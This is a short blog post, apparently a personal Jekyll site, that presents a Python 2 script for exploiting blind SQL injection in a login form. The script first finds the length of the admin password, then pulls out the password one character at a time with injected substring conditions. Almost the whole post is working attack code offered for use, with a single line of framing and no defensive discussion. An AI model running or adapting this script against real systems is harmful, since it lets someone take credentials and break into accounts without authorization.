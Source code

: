 ```yaml
---
layout: post
title:  "SQL-Blind Injection script !"
date:   2017-01-30 14:45:00 +0100
categories: jekyll update
---
```


Here is a little script to exploit sql blind injections

{% highlight python %}

#!/usr/bin/env python2

import urllib
import urllib2
import time

CHARSET = "0123456789azertyuiopqsdfghjklmwxcvbnAZERTYUIOPQSDFGHJKLMWXCVBN@-_."
url = 'http://www.vulnerable_site.com/auth.php'

def sqlfind(length):
    i = 1
    final = ""
    tmp = 0
    while (i < length + 1): # length + 1 because substring starts at 1 
        query_args = { 'username':"admin' AND substr(password, " + str(i) + ", 1)= '" + CHARSET[tmp] + "' -- ", 'password':"bar" }
        encoded_args = urllib.urlencode(query_args)
        print (query_args["username"])
        response = urllib2.urlopen(url, encoded_args).read()
        time.sleep(0.2)
        if response.find("no such user") == -1:
            i = i + 1
            final += CHARSET[tmp]
            print ("PASSWORD : " + final)
            tmp = 0
        tmp = tmp + 1

def check_nb_chars():
    i = 0
    while (i < 100):
        query_args = { 'username':"admin' AND length(password)=" + str(i) + " -- ", 'password':"bar" }
        encoded_args = urllib.urlencode(query_args)
        print (query_args["username"])
        response = urllib2.urlopen(url, encoded_args).read()
        time.sleep(0.2)
        if response.find("no such user") == -1:
            print "Found the right length " + str(i)
            return (i)
        i = i + 1
    return (-1)

sqlfind(check_nb_chars())

{% endhighlight %}
